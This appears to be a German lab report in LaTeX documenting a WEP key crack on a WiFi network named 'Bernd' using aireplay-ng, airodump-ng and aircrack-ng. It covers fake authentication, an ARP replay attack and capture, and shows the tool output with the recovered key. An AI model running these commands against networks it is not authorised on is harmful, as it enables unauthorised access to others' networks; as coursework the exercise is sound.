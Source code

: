 \documentclass[10pt,a4paper]{article}
\begin{document}
Als erstes haben wir mit dem folgenden Kommando überprüft, ob wir mit der Netzwerkkarte in das Netzwerk Bernd Packete injizieren können.
\begin{verbatim}
aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1
\end{verbatim}
Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels eine Fakeauthentifizierung durch.
\begin{verbatim}
aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1
\end{verbatim}
Dannach schnitten wir alle Packete im Netzwerk mit:
\begin{verbatim}
airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1
\end{verbatim}
Um die Menge an beobachteten Packeten zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Packet wieder in das Netzwerk eingespielt.
\begin{verbatim}
aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1
\end{verbatim}
Nach circa 10 Minuten Packete mitschneiden knackten wir auf Basis der mitgeschnittenen Packete den WEP PreSharedKey:
\begin{verbatim}
aircrack-ng -b 64:70:02:1A:B1:81 output*.cap
\end{verbatim}
\begin{tiny}
\begin{verbatim}
                                                                 [00:00:00] Tested 835 keys (got 93526 IVs)

   KB    depth   byte(vote)
    0    0/ 25   71(122112) F5(107008) 3B(105216) 1B(103680) 94(103424) 90(103168) 3A(102656) A6(102656) 59(102400) CA(102400) 45(102144) 8B(101376) 9B(101120) 56(100864) 
    1    1/  1   E6(108288) 64(106496) 48(105472) 08(104960) 93(103936) 16(103424) 6B(103168) 92(102912) AA(102912) 74(102656) 56(102400) D9(102400) 9A(102144) 9F(102144) 
    2    0/  1   F9(131328) EF(108288) D0(107264) DF(107264) D2(105984) D9(105216) 02(104448) 7C(103936) E2(103168) 12(102912) C6(102912) 1A(102144) AB(102144) EA(102144) 
    3    0/  1   47(136960) 35(107776) 6B(106240) 74(106240) A2(106240) 08(105984) 70(104960) A3(104192) BE(103168) 22(102656) 31(102656) 87(102656) A8(102656) E8(102656) 
    4   14/  4   50(102144) 93(101632) 40(101120) B5(100864) 17(100608) 44(100608) 5B(100352) 75(100352) 18(100096) A3(100096) 55(99584) E3(99584) 26(99328) 65(99328) 

     KEY FOUND! [ 71:32:56:4E:4B:7A:31:47:73:52:71:59:41 ] (ASCII: q2VNKz1GsRqYA )
	Decrypted correctly: 100%
\end{verbatim}
\end{tiny}
Der verwendete WEP Key im Netzwerk Bernd lautet also: \texttt{q2VNKz1GsRqYA}.
\end{document}
